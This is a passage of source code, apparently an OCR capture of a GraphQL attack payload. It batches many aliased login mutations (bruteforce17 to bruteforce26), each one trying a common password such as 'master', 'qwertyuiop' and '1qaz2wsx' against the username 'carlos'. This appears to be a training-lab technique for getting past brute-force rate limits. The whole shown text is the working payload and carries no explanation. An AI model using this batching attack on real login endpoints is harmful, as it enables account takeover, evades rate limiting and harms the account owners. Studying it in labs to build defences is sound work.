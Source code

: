 ```plain
        token
        success
    }


bruteforce17:login(input:{password: "master", username: "carlos"}) {
        token
        success
    }


bruteforce18:login(input:{password: "666666", username: "carlos"}) {
        token
        success
    }


bruteforce19:login(input:{password: "qwertyuiop", username: "carlos"}) {
        token
        success
    }


bruteforce20:login(input:{password: "123321", username: "carlos"}) {
        token
        success
    }


bruteforce21:login(input:{password: "mustang", username: "carlos"}) {
        token
        success
    }


bruteforce22:login(input:{password: "1234567890", username: "carlos"}) {
        token
        success
    }


bruteforce23:login(input:{password: "michael", username: "carlos"}) {
        token
        success
    }


bruteforce24:login(input:{password: "654321", username: "carlos"}) {
        token
        success
    }


bruteforce25:login(input:{password: "superman", username: "carlos"}) {
        token
        success
    }


bruteforce26:login(input:{password: "1qaz2wsx", username: "carlos"}) {
        token
        success
    }
```